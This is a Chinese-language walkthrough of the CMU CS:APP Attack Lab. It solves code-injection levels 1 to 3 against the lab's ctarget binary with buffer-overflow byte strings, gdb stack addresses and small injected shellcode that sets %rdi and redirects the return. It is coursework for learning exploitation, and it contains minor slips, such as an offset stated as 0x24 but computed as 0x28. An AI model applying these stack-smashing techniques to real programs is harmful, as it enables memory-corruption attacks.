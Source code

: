 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下(一行10位 每行放一次指令)
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40
```

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳   
利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq $0x59b997fa,%rdi
retq

```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3                                 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00     
00 00 00 00 00 00 00 00 00 00    
78 dc 61 55      
```


### ***CI level3***
和level2的思路一致 先获取touch3地址 0x4018fa
level3需要将cookie转换成ascii字符串形式
0x59b997fa 转化为字符串为 35 39 62 39 39 37 66 61
同时 提示给出 touch3中会导致输入被覆盖 
因此 传递的参数不能直接储存至输入 于是在栈指针下方储存
rsp + 0x8 = 0x5561dca8 
phase3.s:
```assembly
pushq $0x4018fa
movq $0x5561dca8,%rdi
retq

```
反汇编得到
```
fa 18 40 00       	      pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq   
```
答案
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55 
c3 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00  
78 dc 61 55 
35 39 62 39 39 37 66 61
```
